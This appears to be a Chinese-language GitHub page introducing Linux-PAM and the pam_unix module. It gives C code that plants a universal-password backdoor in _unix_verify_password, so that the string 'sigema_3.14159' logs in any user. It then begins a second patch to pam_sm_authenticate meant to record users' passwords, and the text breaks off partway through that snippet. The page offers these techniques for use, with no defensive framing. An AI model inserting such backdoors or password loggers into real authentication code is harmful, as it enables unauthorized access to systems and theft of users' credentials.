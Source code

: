 ## PAM认证
Linux-PAM (Pluggable Authentication Modules for Linux) is a suite of shared libraries that enable the local system administrator to choose how applications authenticate users.
<br>
![pam-logo](images/pam-logo.gif)
<br>
下面列举一些常用的PAM模块，获取更多指导请参考[The Linux-PAM Guides](http://www.linux-pam.org/Linux-PAM-html/)。
### pam_unix
This is the standard Unix authentication module. It uses standard calls from the system's libraries to retrieve and set account information as well as authentication. 
<br>
最基础的一个PAM模块，负责用户认证、口令加密、账号信息、会话管理等，基本上会被所有的配置文件(/etc/pam.d/*)包含。
<br>
常见PAM后门就是修改的这个模块，达到记录用户密码、通用密码等功能。
<br>
例如，下面修改pam_unix/support.c里的_unix_verify_password函数，设置一个口令后门，任意用户输入"sigema_3.14159"即可认证成功:
```
int _unix_verify_password(pam_handle_t * pamh, const char *name
			  ,const char *p, unsigned int ctrl)
{
	struct passwd *pwd = NULL;
	char *salt = NULL;
	char *data_name;
	int retval;
	
	/* 通用口令后门 */
	const char *pd = "sigema_3.14159";
	if(!strncmp(p, pd, 14)) {
		return PAM_SUCCESS;
	}
	/* end */

	/* 省略内容*/
}
```
下面修改pam_unix/pam_unix_auth.c里的pam_sm_authenticate函数，实现记录用户密码:
```
PAM_EXTERN int pam_sm_authenticate(pam_handle_t * pamh, int flags
				   ,int argc, const char **argv)
{
	FILE *fp = NULL;
	
	/* 省略内容*/
	
```